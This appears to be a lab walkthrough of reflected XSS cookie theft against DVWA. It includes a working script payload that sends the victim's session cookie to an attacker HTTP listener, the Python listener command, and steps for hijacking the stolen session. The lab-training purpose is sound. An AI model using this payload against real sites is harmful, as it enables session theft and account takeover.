




# Attacker Walkthrough: Reflected XSS Exploitation

**Scenario:** Reflected Cross-Site Scripting (XSS) - Cookie Theft
**Target application:** DVWA (Damn Vulnerable Web Application)
**Target URL:** `http://sadeg.com/dvwa/vulnerabilities/xss_r/`
**Attacker machine:** Kali Linux 
**Attacker listener IP:** `192.168.30.128`
**Victim/Target IP (from log):** `192.168.30.128` (same host used for the catcher demo)

---

## 1. Objective

Exploit the **Reflected XSS** vulnerability in DVWA's `xss_r` module to steal the victim's session cookie (`PHPSESSID`) by injecting malicious JavaScript into the "What's your name?" input field, and exfiltrate it to an attacker-controlled HTTP listener.

---

## 2. Attack Infrastructure Setup

### Step 1: Start an HTTP listener to capture exfiltrated data

On the Kali attacker machine, start a simple Python HTTP server to act as the exfiltration endpoint ("catcher"):

```bash
root@kali:/home/user# python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```



This listener will receive any HTTP requests sent to port `8888`, including the stolen cookie value appended as a query string parameter.

---

## 3. Crafting the XSS Payload

The `xss_r` form reflects the `name` parameter directly back into the page without sanitization, making it vulnerable to script injection.

### Payload used

The attacker enters a JavaScript payload into the **What's your name?** field that:
1. Breaks out of the existing HTML context.
2. Reads the victim's session cookie via `document.cookie`.
3. Sends it to the attacker's listener on port `8888`.
4. Closes the script tag to keep the page well-formed.

Example payload entered in the field (as seen truncated in the input box: `e='+document.cookie</script`):

```html
<script>document.location='http://192.168.30.128:8888/steal?cookie='+document.cookie</script>
```


### How the payload works

| Part | Purpose |
|---|---|
| `<script> ... </script>` | Injects executable JavaScript into the reflected page |
| `document.location=` | Forces the victim's browser to navigate to the attacker's URL |
| `'http://192.168.30.128:8888/steal?cookie='` | Attacker-controlled endpoint and parameter name |
| `+document.cookie` | Appends the victim's current session cookie to the request |

---

## 4. Submitting the Attack

1. Paste the payload into the **What's your name?** input field.
2. Click **Submit**.
3. Because DVWA (at **low** security level) does not sanitize or encode the `name` parameter, the browser executes the injected `<script>` tag immediately upon page reflection.
4. The victim's browser silently sends a GET request to the attacker's listener with the session cookie attached.



---

## 5. Capturing the Stolen Cookie

Back on the Kali attacker terminal, the Python HTTP server logs the incoming request from the victim's browser:



---

## 6. Impact

With the stolen `PHPSESSID` value, the attacker can:
- Replace their own session cookie with the victim's `PHPSESSID` (session hijacking).
- Access the DVWA application with the victim's authenticated session, bypassing login.
- Perform any action available to the victim's account.
